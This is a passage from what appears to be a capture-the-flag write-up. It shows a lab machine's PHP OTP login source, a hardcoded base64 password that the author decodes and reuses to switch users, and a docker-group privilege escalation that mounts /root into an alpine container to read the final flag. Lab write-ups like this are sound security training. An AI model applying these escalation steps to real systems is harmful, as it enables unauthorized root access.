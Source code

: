                 { 
                        $random = rand(1000,9999);?&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;
                        &lt;form method=&quot;POST&quot;&gt;
                                Enter the OTP: &lt;input type=&quot;number&quot; name=&quot;otp&quot;&gt;
                                &lt;input type=&quot;submit&quot; name=&quot;submitOtp&quot; value=&quot;Submit&quot;&gt;
                        &lt;/form&gt;
                &lt;?php   mail($email,&quot;OTP for authentication&quot;,$random);
                        if(isset($_POST[&quot;submitOtp&quot;]))
                                {
                                        $otp = $_POST[&quot;otp&quot;];
                                        if($otp == $random)
                                        {
                                                echo &quot;Welcome Anurodh!&quot;;
                                                header(&quot;Location: authenticated.php&quot;);
                                        }
                                        else
                                        {
                                                echo &quot;Invalid OTP&quot;;
                                        }
                                }
                }
                else
                {
                        echo &quot;Invalid Username or Password&quot;;
                }
        }
?&gt;
&lt;/html&gt;</pre>

We can see:

<pre>if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")</pre>

Decode this:

<pre>echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rd</pre>

I try to use this on the website but no luck, so I try changing the user to anurodh on the machine and it works.

I enumerated some more and found that this user can run docker. I only thought of this as I saw it earlier when I was enumerating. 

I also know that from my previous experience with docker, a user should not have access to it as it can be exploited to escalate privs. 

[Docker privesc](https://www.hackingarticles.in/docker-privilege-escalation/)

If we look at the images that are on our system, we see alpine:

<pre>docker images</pre>

So we can essentially run this container and mount it to root like so:

<pre>docker run -v /root:/mnt -it alpine</pre>

We are in the container, in the / directory. If we navigate to /mnt we can see our last flag :).





